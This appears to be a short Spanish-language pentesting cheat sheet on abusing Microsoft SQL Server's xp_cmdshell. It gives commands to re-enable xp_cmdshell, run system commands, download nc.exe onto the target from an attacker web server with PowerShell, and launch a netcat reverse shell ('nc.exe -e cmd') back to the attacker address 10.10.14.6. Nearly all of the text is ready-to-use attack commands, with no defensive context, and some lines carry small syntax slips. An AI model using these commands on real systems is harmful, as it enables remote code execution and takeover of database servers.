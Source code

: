 ** Objeto xp_cmdshell **
Utilidad propia de los servidores MSQL Server para ejecutar comandos sobre el equipo en el que está la base de datos montada.

Uso: 
> Ejecución de comandos:
> `xp_cmdshell "whoami"`
> Habilitar xp_cmdshell si estuviese deshabilitado:
> `SP_CONFIGURE "show advanced options". 1`
> `reconfigure`
> `SP_CONFIGURE "xp_cmdshell". 1`
> `reconfigure`

** Obtener reverse-shell gracias al objeto xp_cmdshell **
> Compartir binario nc.exe:
> `python -m SimpleHTTPServer`
> Transferir netcat desde máquina objetivo, con Powershell:
> `xp_cmdshell 'powershell Invoke-WebRequest http://10.10.14.6:8000/nc.exe C:\Windows\Temp\nc.exe`
> Puerto en escucha para recibir la reverse shell en máquina atacante:
> `rlwrap nc -nlvp 443`
> Ejecutar netcat en máquina objetivo para recibir la reverse shell:
> `xp_cmdshell "start /b C:\Windows\Temp\nc.exe -e cmd 10.10.14.6 443"`


